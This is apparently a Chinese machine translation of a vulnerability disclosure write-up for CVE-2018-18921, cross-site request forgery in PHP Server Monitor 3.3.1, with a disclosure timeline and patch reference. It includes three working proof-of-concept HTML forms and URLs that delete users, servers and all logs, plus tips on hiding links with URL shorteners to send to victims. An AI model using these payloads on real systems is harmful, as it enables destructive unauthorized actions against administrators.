





# CVE-2018–18921 PHP 服务器监视器 3 . 3 . 1-跨站点请求伪造

> 原文：<https://infosecwriteups.com/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery-a73e8dae563?source=collection_archive---------1----------------------->


👋又见面了，伙计们

最近，我花了一点空闲时间来审计开源软件，主要是那些基于网络的软件。

这次我想和大家分享一些我在 PHP 服务器监控 **3.3.1** 开源软件中发现的**跨站请求伪造(CSRF)，希望以后能和大家分享更多。**

# 什么是 CSRF？

跨站点请求伪造是一种恶意技术，其中**未经授权的命令从 web 应用程序信任的用户**处传输。

因此，如果我们让应用程序的用户执行我们预先准备好的有效负载，我们将成功利用此漏洞。😉


例如，CSRF 袭击

# 关于 PHP 服务器监视器



PHP 服务器监视器是一个脚本，**检查你的网站和服务器是否启动并运行**。它配有一个基于网络的用户界面**，您可以在其中管理您的服务和网站，并且您可以通过手机号码和电子邮件地址管理每台服务器的用户。**

# 我是如何发现 CSRF 漏洞的？

我必须说，CSRF 漏洞**是我在审计**中看到的最后一件事，但在这种情况下，我是偶然发现它们的…

在第一阶段，当试图查看请求响应中反映的参数以利用可能的跨站点脚本(XSS)时，我观察到创建用户和服务器的**动作具有反 CSRF 令牌。**😢



创建用户的请求示例，我们看到了反 CSRF 令牌

当我观察它的时候，**我起初丢弃了这种漏洞**并且我一直在寻找反射的参数，**但是后来我看到了下面的…**



删除服务器页面

😲哇！！！用于删除服务器的**按钮缺少反 CSRF 令牌**，也需要通过 GET 请求。

这种错误配置**将允许攻击者生成恶意的有效载荷，它应该用网址缩写**(谷歌缩写或类似的)隐藏起来。


✔️[更新到**版本 3.3.2** 到](https://github.com/phpservermon/phpservermon/releases/tag/v3.3.2)停止青蛙。

# 概念证明(POC)

在下面，**屏幕被分成了两个部分**，在左侧，管理面板中有一个用户，在右侧，攻击者生成了一个先前配置的恶意按钮来执行操作。

**CSRF 1 —删除用户**

*方法 1*

使用 Google URL Shortener(或者类似的)来缩短下一个 url (http://[PATH]/？&**mod**=用户& **动作**=删除&**ID**=**【ID】**发送给受害者。

*方法二*

使用下一个表格并将其发送给受害者。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[PATH]/">
      <input type="hidden" name="mod" value="user" />
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="id" value="[ID]" />
      <input type="submit" value="Delete User" />
    </form>
  </body>
</html>
```



PoC —删除用户

**CSRF 新协议—删除服务器**

*方法一*

使用 Google URL Shortener(或者类似的)来缩短下一个 url (http://[PATH]/？&**mod**= server&**action**= delete&**ID**=**【ID】**发送给受害者。

*方法二*

使用下一张表格并将其发送给受害者。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[PATH]/">
      <input type="hidden" name="mod" value="server" />
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="id" value="[ID]" />
      <input type="submit" value="Delete Server" />
    </form>
  </body>
</html>
```



PoC —删除服务器

**CSRF 3 —删除所有日志**

*方法一*

使用 Google URL Shortener(或者类似的)来缩短下一个 url (http://[PATH]/？&**mod**= server _ log&**action**= delete)发送给受害者。

*方法二*

使用下一张表格并将其发送给受害者。

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://[PATH]/">
      <input type="hidden" name="mod" value="server&#95;log" />
      <input type="hidden" name="action" value="delete" />
      <input type="submit" value="Delete All Logs" />
    </form>
  </body>
</html>
```


PoC —删除所有日志

# 时间表

**30/10/2018** 发现[上报](https://github.com/phpservermon/phpservermon/issues/670)

**01/11/2018** 请求 [CVE ID](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18921)

**2018 年 11 月 22 日** [打补丁](https://github.com/phpservermon/phpservermon/releases/tag/v3.3.2)

**28/11/2018** 公开披露

# 参考

[](https://github.com/phpservermon/phpservermon/issues/670) [## [安全]发现的漏洞问题#670 phpservermon/phpservermon

### 你好，请问，我如何报告漏洞？问候

github.com](https://github.com/phpservermon/phpservermon/issues/670) [](https://hackpuntes.com/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/) [## CVE-2018–18921 PHP 服务器监视器 3 . 3 . 1-跨站点请求伪造-黑客攻击

### Las vulnerabilidades 跨站点请求伪造(CSRF)encontradas en El software PHP Server Monitor 3 . 3 . 1 Han quedado…

hackpuntes.com](https://hackpuntes.com/cve-2018-18921-php-server-monitor-3-3-1-cross-site-request-forgery/) [](https://www.exploit-db.com/exploits/45932) [## 攻击性安全利用数据库档案

### PHP 服务器监视器 3.3.1 —跨站点请求伪造..PHP 平台的 webapps 漏洞

www.exploit-db.com](https://www.exploit-db.com/exploits/45932) 

关注我 [**Twitter**](https://twitter.com/JJavierOlmedo) 和 [**LinkedIn**](https://www.linkedin.com/in/jjavierolmedo/) ！

祝你黑客生涯愉快，下次再见。

# 感谢[所有信息安全的贡献者](https://medium.com/bugbountywriteup/about)让我向他们学习